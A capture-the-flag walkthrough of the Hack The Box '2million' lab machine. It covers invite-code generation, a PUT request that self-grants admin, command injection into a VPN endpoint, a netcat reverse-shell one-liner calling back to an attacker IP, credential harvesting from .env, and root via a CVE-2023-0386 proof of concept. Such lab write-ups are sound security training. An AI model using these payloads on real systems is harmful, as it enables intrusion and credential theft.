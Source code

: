 # INITIAL ACCESS

## DISCOVERY

1. Run a `nmap` scan and discover ports 22 and 80 open

![nmap scan](screenshots/01-nmap-scan.png)

2. Add `2million.htb` to the `/etc/hosts` file

3. Explore the webpage and discover the `/invite` endpoint

![invite page](screenshots/02-invite-page.png)

4. Using BurpSuite, notice that this page makes a call to `js/inviteapi.min.js`

![invite api javascript](screenshots/03-iniviteapi-js.png)

5. The js content is obfuscated, but you can copy it as a one-liner and paste it to https://beautifier.io/ to de-obfuscate it

![beautified code](screenshots/04-javascript-beautify.png)

6. Make a POST request to `/api/v1/invite/how/to/generate`

![api code generation](screenshots/05-generate-api.png)

7. Decode the message using [CyberChef](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=VmEgYmVxcmUgZ2IgdHJhcmVuZ3IgZ3VyIHZhaXZnciBwYnFyLCB6bnhyIG4gQ0JGRyBlcmRocmZnIGdiIC9uY3YvaTEvdmFpdmdyL3RyYXJlbmdy) 

![decoded message](screenshots/06-rot13-decode.png)

8. Make a POST request to `api/v1/invite/generate` and notice that the code you received is base64 encoded. Decode that to get the code

![decoded base64](screenshots/08-invite-code-decoded.png)

9. Make an account and log in. Then explore the landing page a bit.

![landing page](screenshots/09-landing-page.png)

10. After logging in, we can enumerate the API endpoints by submitting a request to `/api/v1`

![api endpoints](screenshots/10-api-endpoints.png)

11. Although most of the admin endpoints are locked against unauthenticated users, the `PUT` request to `/api/v1/admin/settings/update` is not. The following screenshots show the enumeration process of discovering how to abuse this to make our user admin, eventually submitting the following request

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Content-Type: application/json

{
	"email":"your registered email",
	"is_admin":1
}
```

![updating admin settings](screenshots/11-admin-settings-1.png)

![updating admin settings](screenshots/12-admin-settings-2.png)

![updating admin settings](screenshots/13-admin-settings-3.png)

![updating admin settings](screenshots/14-admin-settings-4.png)

Then we can verify that our user is now admin

![checking that user is now admin](screenshots/15-user-is-admin.png)

12. With admin permissions added to our account, we can verify the `/api/v1/admin/vpn/generate`. It expects a valid username, and the screenshots below show the enumeration process.

![generating vpn](screenshots/16-vpn-generate.png)

![generating vpn](screenshots/17-vpn-generate-2.png)

We can generate the ovpn file, but that's useless. There is no difference between generating the file as an admin or as a low-privileged user. However, we needed to provide the username when generating the file as admin. This is interesting because then it might be vulnerable to code injection - which is confirmed, as demonstrated below.

![command injection](screenshots/18-vpn-generate-cmd-injection.png)

![command injection confirmation](screenshots/19-command-injection-confirm.png)

We get our first shell by injecting `; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ip> 1337 >/tmp/f` 

![first shell](screenshots/20-first-shell.png)

13. Investigate the files in `/var/www/html` and notice the `.env` contains the **admin** password.

![admin password found](screenshots/21-admin-password.png)

14. Use that password to SSH as **admin**

![admin shell](screenshots/22-admin-shell.png)

15. Enumerate admin files and notice that there is a message in `/var/mail/admin`

![locating admin files](screenshots/23-admin-files.png)

16. Search for the exploit mentioned. A Google search leads us to https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/

![exploit found](screenshots/25-exploit-found.png)

17. We can try the exploit mentioned, however, that is not sufficient since we still don't have root access.

![sending first stage of exploit](screenshots/26-exploit-first-stage.png)

18. The exploit website mentions a [proof of concept](https://github.com/xkaneiki/CVE-2023-0386/). We can download that POC and follow the manual (use Google translator) to get root.

![found proof of concept](screenshots/27-poc-found.png)

![got root](screenshots/28-root.png)